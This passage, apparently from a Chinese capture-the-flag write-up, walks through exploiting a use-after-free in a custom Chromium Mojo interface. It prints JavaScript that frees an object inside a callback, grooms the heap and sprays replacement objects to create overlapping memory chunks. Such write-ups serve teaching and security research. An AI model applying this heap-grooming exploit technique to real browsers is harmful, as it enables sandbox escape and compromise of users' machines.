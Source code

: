 ```js
        // get the FoodInterface in render process
    var foodInterfacePtr = new blink.mojom.FoodInterfacePtr();
    var foodInterfaceRequest = mojo.makeRequest(foodInterfacePtr);
    var foodInterfaceBinding = new mojo.Binding(
        blink.mojom.FoodInterface,
        new FoodInterfaceImpl(),
        foodInterfaceRequest);
```

接着调用对最后一个`Dog`对象调用`cookAndEat`函数。

```js
    // trigger uaf vuln
    dogPtrArr[dogPtrArr.length-1].cookAndEat(foodInterfacePtr)
```

来看关键的`cookAndEat`函数的实现，如下所示。在最开始释放掉最后一个`Dog`对象（利用`ptr.reset()`函数），然后对所有的`Dog`对象的`name`字段分配更大的空间，以空余出`0x40`大小的`hole`来布置堆风水；申请多个`Cat`对象来填充这些释放的内存，最后再为这些`Cat`分配与对象大小相同的`name`。

最终达到的效果是某个`Cat`对象占用了我们释放的`Dog`内存，同时它的`name`指针加上`0x40`刚好是另一个`Cat`对象的`name`指针。

因为漏洞触发`Cat`对象（被释放的`Dog`对象）的`name`指针（`Dog`字段的`weight`字段）加上`FoodInterfaceImpl.prototype.getWeight`返回的`0x40`，指向了下一片内存，刚好是另一个`Cat`对象`name`字段，形成了重叠的内存块。

```js
    // the getWeight of FoodInterfaceImpl, which  forms a uaf vuln.
    FoodInterfaceImpl.prototype.getWeight = async function() {

        // release the last dogPtr
        dogPtrArr.pop().ptr.reset();

        // change the dog's name size, which will leave the a lot of hole (size 0x40)
        for(let i=0; i<dogPtrArr.length; i++) {
            await dogPtrArr[i].setName('a'.repeat(stringSize*100));
        }

        // create cat to fill the hole
        for(let i=0; i<catCount; i++) {
            let catPtr = (await mojoPtr.createCat()).cat;
            catPtrArr.push(catPtr);
        }

        // create cat name(0x40) to fill the hole, there will be two Neighboring name
        for(let i=0; i<catCount; i++) {
            await catPtrArr[i].setName(id2Str(i, stringSize));
        }

        // return 0x40 will change one cat's name to the Neighboring cat's name, which will form a overlap chunk.
        return {'weight': 0x40};
    };
```

接着就遍历`Cat`对象，去寻找被修改了`name`字段的`Cat`，并找出`name`字段相同的另一个`Cat`，经过下面的代码后，`evil`与`victim`的`name`字段相同。
